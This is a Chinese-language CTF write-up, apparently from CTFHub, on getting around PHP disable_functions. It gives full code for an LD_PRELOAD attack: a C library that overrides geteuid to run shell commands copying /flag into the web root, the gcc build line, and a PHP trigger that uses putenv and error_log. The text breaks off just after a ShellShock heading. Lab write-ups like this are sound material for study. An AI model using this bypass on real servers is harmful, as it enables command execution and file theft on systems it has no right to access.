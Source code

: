 # CTFHUB进阶

[toc]

## 1. PHP Bypass disable_function

### 1.1 LD_PRELOAD

> 获取服务器上 /flag 文件中的 flag。需要了解 Linux LD_PRELOAD 环境变量。
>
> [【Linux】LD_PRELOAD用法 - 扫驴 - 博客园 (cnblogs.com)](https://www.cnblogs.com/saolv/p/9761371.html)
>
> [LD_PRELOAD用法_Lawrence_121-CSDN博客](https://blog.csdn.net/m0_37806112/article/details/80560235)
>
> 加载顺序为LD_PRELOAD>LD_LIBRARY_PATH>/etc/ld.so.cache>/lib>/usr/lib

进去之后可以看到已经给了一个webshell，但是这个webshell貌似不足以支持蚁剑使用交互式shell。

1. php中的error_log函数会使用geteuid函数。

2. 自己写一个hack.c文件里面包含geteuid函数，里面执行一些system函数去读取/flag文件。（本地编译上传）

    ```c
    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>
     
    uid_t geteuid(void){
    	if (getenv("LD_PRELOAD") == NULL) return 0;
    	unsetenv("LD_PRELOAD");
    	system("cat /flag >> /var/www/html/test");
    	system("tac /flag >> /var/www/html/test");
    }
    ```

    ```bash
    gcc -shared -fPIC hack.c -o hack.so
    ```

3. 通过更改LD_PRELOAD 环境变量把动态库的加载指向自己写的hack.so。

4. 自己写一个php文件调用error_log函数。

    ```php
    <?php
        putenv("LD_PRELOAD=/var/www/html/hack.so");
    	error_log("", 1);
    ```

5. 访问自己写的php文件，然后就能看到生成的test文件了，打开就能看见flag。

### 1.2 ShellShock

> 利用PHP破壳完成 Bypass
>
> [什么是ShellShock攻击？ - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/35579956)
